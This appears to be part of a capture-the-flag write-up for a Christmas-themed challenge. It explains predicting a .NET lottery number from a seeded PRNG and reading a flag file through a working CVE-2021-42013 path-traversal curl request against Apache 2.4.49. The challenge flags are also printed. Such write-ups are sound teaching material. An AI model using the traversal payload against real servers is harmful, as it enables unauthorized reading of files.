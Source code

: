 > `${W0V_Y0U_JU57_BR0K3_743_W0R1D_R3C0RD!!!}`

# Door 21 - Santas Lottery
> So Santa wanted to launch a lottery service on the North Pole. Can you have a look and see if you can win?
> Hint: How do PRNGs work again?

Webpage where we have to guess a random number. The guessing page has a hidden field with a UUID. The page is delivered with Kestrel webserver so I assume it's written in .NET, and sure enough when you guess wrong there is a hint on the `/wrong`-page:
```html
<!-- Tests broke every time we ran this, so I discovered this about .NET Core: https://andrewlock.net/why-is-string-gethashcode-different-each-time-i-run-my-program-in-net-core/ It was very helpful! Now the tests all pass! -->
```
The [website](https://andrewlock.net/why-is-string-gethashcode-different-each-time-i-run-my-program-in-net-core/) shows an implementation for getting the same hashcode from a string across .NET versions.

I had tried importing the UUID with `GUID.Parse()` but that didn't seem to work. The hint indicates that Santa is using that custom function to parse the UUID as a string.

I wasted over an hour with Visual Studio 2019 before I realized that `Random.Next()` returned Int32, and Santa specifically said Int64. I needed to install Visual Studio 2022 to get a newer .NET version that provided `.NextInt64()`. Once that was in place the code ([full source](./files/door21.cs)) was working:

```C#
  var seed = args[0].GetDeterministicHashCode();
  var r = new Random(seed);
  Console.WriteLine(r.NextInt64());
```

> `${W3_4@V3_@_V3RY_1UCKY_B@57@RD!}`

# Door 22 - Santa's Coding Workshop Showcase
> Santa's starting to get more serious into coding. He is now really invested in learning graphics and game programming. After he found that awesome graphics library, he has been quite a productive coder! Check out all his nice computer generated imagery here:
> Hint: Now where can the vulnerability be hiding? Is it in one of the games or graphics demos? And wasn't this a pwn chall? Where is my bin?

Lots of nice graphics stuff here, but nothing seems to call a server function. The comment on the main page is interesting: `<!-- Man I dig Apache! -->`. So I finally notice the Apache version (2.4.49). CVE-2021-42013 - Path Traverse and RCE. No need for RCE since the flag was conveniently located in /flag.txt:

```
curl $'http://santascodingworkshop.norwayeast.azurecontainer.io/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/flag.txt'
${74I5_I5_W4Y_W3_C@N7_4@V3_NIC3_74IN65:@:@:@:@}:
```

> `${74I5_I5_W4Y_W3_C@N7_4@V3_NIC3_74IN65:@:@:@:@}`
